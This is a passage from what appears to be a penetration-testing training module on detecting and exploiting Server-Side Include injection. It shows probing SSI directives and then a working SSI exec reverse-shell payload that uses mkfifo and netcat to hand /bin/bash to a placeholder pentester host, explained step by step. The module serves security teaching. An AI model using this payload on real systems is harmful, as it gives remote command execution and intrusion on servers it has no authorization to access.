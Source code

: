 ![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.png)

Let us focus on identifying an SSI Injection vulnerability by submitting some of the SSI directives mentioned in the previous section.

Code: html

```html
1. <!--#echo var="DATE_LOCAL" -->
2. <!--#printenv -->
```

#### Date

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_1.5.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_2.png)

#### All Variables

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_3.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI_4.png)

As we can see, the application is indeed vulnerable to SSI Injection! Now, proceed to the exercise at the end of this section and leverage any SSI directives listed in the previous section that can result in command execution against the underlying system to complete it.

``Note: As we saw, running OS commands via SSI on the target application is possible, but who doesn't love shells? Have in mind the following reverse shell payload that will work even against OpenBSD-netcat that doesn't include the execute functionality by default. Also note that you won't be able to obtain a reverse shell in this section's exercise, due to network restrictions!

#### Reverse Shell

```html
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

- `mkfifo /tmp/foo`: Create a FIFO special file in `/tmp/foo`
- `nc <IP> <PORT> 0</tmp/foo`: Connect to the pentester machine and redirect the standard input descriptor
- `| bin/bash 1>/tmp/foo`: Execute `/bin/bash` redirecting the standard output descriptor to `/tmp/foo`
- `rm /tmp/foo`: Cleanup the FIFO file

